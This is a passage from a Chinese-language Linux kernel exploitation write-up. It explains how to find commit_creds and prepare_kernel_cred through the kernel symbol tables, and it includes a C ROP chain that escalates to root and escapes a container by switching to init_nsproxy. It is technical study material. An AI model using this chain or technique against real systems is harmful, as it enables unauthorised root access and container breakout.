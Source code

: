 因此在利用时，我们先在内核空间暴力搜索字符串"commit_creds"，commit_creds 的 strtab 地址，在通过关系 `&symtab.name_offset + symtab.name_offset == &strtab `找到 commit_creds 的 symtab 地址。之后通过加减 symtab.value_offset 就能得到 commit_creds 地址。



通过阅读内核代码，我发现 prepare_kernel_cred 和 commit_creds 均为导出函数，都可以通过上面的方法定位函数地址。因此如果我们的目标只是提权，只需要通过shellcode查找并调用这两个函数即可完成通用提权。



但如果想要改变namespace就没这么容易了。先看看平时用ROP逃逸namespace时都调用了那些函数：

```c
uint64_t chain[] = {
    pop_rdi,
    0,
    prepare_kernel_cred,
    pop_rsi,
    0xbaadbabe,
    cmov_rdi_rax_esi_nz_pop_rbp,
    0xdeadbeef,
    commit_creds,
    pop_rdi,
    1,
    find_task_by_vpid,
    pop_rsi,
    0xbaadbabe,
    cmov_rdi_rax_esi_nz_pop_rbp,
    0xdeadbeef,
    pop_rsi,
    init_nsproxy,
    switch_task_namespaces,
    kpti_trampoline,
    0xdeadbeef,
    0xbaadf00d,
    (uint64_t)pwned,
    user_cs,
    user_rflags,
    user_sp & 0xffffffffffffff00,
    user_ss,
};

/*
 * commit_creds(prepare_kernel_cred(0));
 * switch_task_namespaces(find_task_by_vpid(1), init_nsproxy);
 */
```

这下面的 switch_task_namespaces， find_task_by_vpid ，init_nsproxy 都不是导出的，都无法通过symtab找到。

不过也只是多绕几个弯的问题。



find_task_by_vpid 是通过pid找到对应的struct task_struct：

```c
struct task_struct *find_task_by_vpid(pid_t vnr)
{
	return find_task_by_pid_ns(vnr, task_active_pid_ns(current));
}

/*
 * Must be called under rcu_read_lock().
 */
struct task_struct *find_task_by_pid_ns(pid_t nr, struct pid_namespace *ns)
{
	RCU_LOCKDEP_WARN(!rcu_read_lock_held(),
			 "find_task_by_pid_ns() needs rcu_read_lock() protection");
	return pid_task(find_pid_ns(nr, ns), PIDTYPE_PID);
```